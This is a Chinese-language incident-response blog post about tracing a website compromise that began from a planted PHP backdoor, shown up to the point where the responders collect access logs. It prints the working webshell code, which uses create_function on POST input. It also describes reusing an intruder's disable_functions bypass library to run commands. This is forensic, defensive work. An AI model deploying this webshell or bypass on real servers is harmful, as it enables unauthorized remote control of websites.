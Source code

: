 #  记一次从后门开展的应急响应溯源

先知社区-ADog  [ W小哥 ](javascript:void\(0\);)

**W小哥** ![]()

微信号 gh_f962eb08dc5c

功能介绍 欢迎关注W小哥的公众号，网络安全从业人员和网络安全爱好者的自留地，有朋自远方来，不亦说乎！

____

___发表于_

收录于合集

# 1 背景

一般安全厂商都会有针对web后门的扫描工具，此次拿到了一批网站被植入后门的攻击线索，由于疫情原因，现场排查取证条件比较苛刻，所以此次溯源是在开局一个后门情况下开展，大致思路是连接后门->查看日志->漏洞溯源。

# 2 后门排查

存在后门的URL : http://www.xxxx.com/plugins/layer/mobile/need/wwConapp.php

![](https://gitee.com/fuli009/images/raw/master/public/20230307164102.png)

    
    
    <?php  
    function fun2(){  
        $b=$_POST;  
        return @($b[a]);  
    }  
    @extract(array(b=>create_function(NULL,fun2())));  
    @extract(array(c=>$b()));  
    ?>hello  
    

进去之后想要通过antasword执行命令，发现ret=127，于是查看phpinfo，发现存在disable_functions

    
    
    diable_functions : exec,passthru,popen,proc_open,shell_exec,system,assert  
    

禁用了这些命令执行的先关函数，绕过应该还是好绕的，不过在同目录下已经发现了前人留下的bypass_disablefunc_x.so，省去了绕过时间，直接复用即可  

![](https://gitee.com/fuli009/images/raw/master/public/20230307164103.png)

到这儿基本已经相当于可以远程执行命令，达到现场排查、取证溯源的目的。

![](https://gitee.com/fuli009/images/raw/master/public/20230307164104.png)

通过cat access.log来获取访问日志，这里通过撰写脚本只获取了2020年4月1日至2020年12月31日的日志，方便我们进行精准溯源。
